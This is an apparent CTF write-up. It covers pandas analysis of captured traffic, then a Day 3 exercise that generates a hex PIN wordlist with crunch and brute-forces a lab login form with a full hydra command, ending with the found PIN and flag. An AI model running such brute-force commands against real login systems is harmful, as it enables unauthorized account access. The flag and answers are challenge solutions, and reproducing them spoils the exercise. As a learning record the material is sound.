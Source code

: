 - what IP sent most amount of traffic? 
> `df.groupby(['Source']).size()` - **10.10.1.4**
```
Source
10.10.1.1      8
10.10.1.10     8
10.10.1.2     12
10.10.1.3     13
10.10.1.4     15
10.10.1.5      5
10.10.1.6     14
10.10.1.7      5
10.10.1.8      9
10.10.1.9     11
dtype: int64
```
- which Protocol was used the most?
>`df['Protocol'].value_counts()` - **ICMP has highest frequency of 27**

---
## Day 3 :

#### *Bruteforcing with Hydra*

- the website is a lockpad with possible password characters as `0123456789ABCDEF` i.e., hexadecimal values and when we try to enter any random combination it doesnt go beyond 3 digits so we can conclude that the passlock is `3 digits` long.
- now we will generate password list using the tool `crunch`
> `crunch 3 3 0123456789ABCDEF -o 3digits.txt` 
> this will generate a password list with `min length = 3` and `max length = 3` as specified and with all those given possible hex values.
- now we will bruteforce this by sending these values using `POST` method and by doing inspect and viewing source code we know that PIN code value is sent with the name `pin` 
`In other words, the main login page http://10.10.47.210:8000/pin.php receives the input from the user and sends it to /login.php using the name pin.`
- now we will bruteforce using `hydra` :
> `hydra -l '' -P 3digits.txt -f -v 10.10.47.210 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000`

```
-l '' -> login name is blank, here not needed 
-f -> stops hydra after match found
-v -> verbose
http-post-form -> specifies to use POST method 
/login.php -> where PIN code is submitted
pin=^PASS^ -> replaces PASS with values from 3digits.txt
Access denied -> invalid passwords lead to a page containing Access denied
-s 8000 -> specifies PORT number
```
- password match found -->> **6F5** 
FLAG - **THM{pin-code-brute-force}**
---
## Day 4 :
